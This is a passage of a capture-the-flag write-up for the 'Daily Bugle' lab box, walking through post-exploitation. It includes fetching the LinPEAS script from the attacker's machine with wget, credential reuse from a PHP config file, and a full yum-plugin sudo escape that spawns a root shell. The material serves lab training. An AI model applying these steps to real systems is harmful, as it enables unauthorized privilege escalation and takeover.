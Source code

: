 Let's start by upgrading our shell with `python -c 'import pty; pty.spawn("/bin/bash")'
`. Looking around the file system, we find a directory belonging to `jjameson`, which we don't seem to have access to. Let's try escalating our privilege. Using `find / -perm -u=s -type f 2>/dev/null` to look for files with the SUID bit set, we find some candidates.

<center>

![83e467cfd5af8ddef71a1a5ca54f5986.png](/Daily Bugle/_resources/83e467cfd5af8ddef71a1a5ca54f5986.png)

</center>

At this point, we check [GTFObins](https://gtfobins.github.io/) to see if we can leverage any of the binaries we found in our search. It doesn't look like this is the right approach. Let's instead use [LinPEAS](https://github.com/carlospolop/PEASS-ng/releases/tag/20220717) to search for possible privilege escalation methods on the target machine. Download the linpeas.sh file onto the attacking machine, spin up a webserver with `python3 -m http.server`, and download it onto the target machine using `wget <attacking IP>:8000/linpeas.sh`.

<center>

![def636cb01192ace178966359de736d8.png](/Daily Bugle/_resources/def636cb01192ace178966359de736d8.png)

</center>

Here I saved the file to the `/tmp` directory so that I don't have to worry about write permissions.

<center>

![c394d08ab7b3fd4ae59b407365d2a84b.png](/Daily Bugle/_resources/c394d08ab7b3fd4ae59b407365d2a84b.png)

</center>

Now use `chmod +x linpeas.sh` to mark the file as executable, then run it with `./linpeas.sh`. LinPEAS identifies the target as being vulnerable to [CVE-2021-4034](https://nvd.nist.gov/vuln/detail/CVE-2021-4034).

<center>

![b8eef301cc53017c0216622cf5cc7e2f.png](/Daily Bugle/_resources/b8eef301cc53017c0216622cf5cc7e2f.png)

</center>

We also find a password in a public PHP config file.

<center>

![1a34e49fbe938a3d2f25ec3018589374.png](/Daily Bugle/_resources/1a34e49fbe938a3d2f25ec3018589374.png)

</center>

Earlier we found a user named jjameson, so we can try using the password we just found so switch into his account.

<center>

![82bbb48b299ce44bf1c3993fad8b731e.png](/Daily Bugle/_resources/82bbb48b299ce44bf1c3993fad8b731e.png)

</center>

Success! Navigating to jjameson's home directory gives us the `user.txt` flag.

Now we look for a way to escalate our privilege to obtain the root flag. Using `sudo -l` tells us that jjameson can run the yum binary with sudo privileges.

<center>

![23809e8f1de19246829b7a180af6c061.png](/Daily Bugle/_resources/23809e8f1de19246829b7a180af6c061.png)

</center>

Going back to [GTFOBins](https://gtfobins.github.io/gtfobins/yum/#sudo), we see that yum does not drop elevated privileges when run as sudo. We can spawn a root shell with the following commands:

```bash
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```

(It may be easier to just copy and paste line-by-line directly from GTFOBins.)

As promised, we get a shell with root access which we then use to quickly find the `root.txt` flag.
 
<center>

![ad5d66d1a634cc31982f20b70c324841.png](/Daily Bugle/_resources/ad5d66d1a634cc31982f20b70c324841.png)

![0b2f3894eda28b03b1003c5bad1b1f2c.png](/Daily Bugle/_resources/0b2f3894eda28b03b1003c5bad1b1f2c.png)

</center>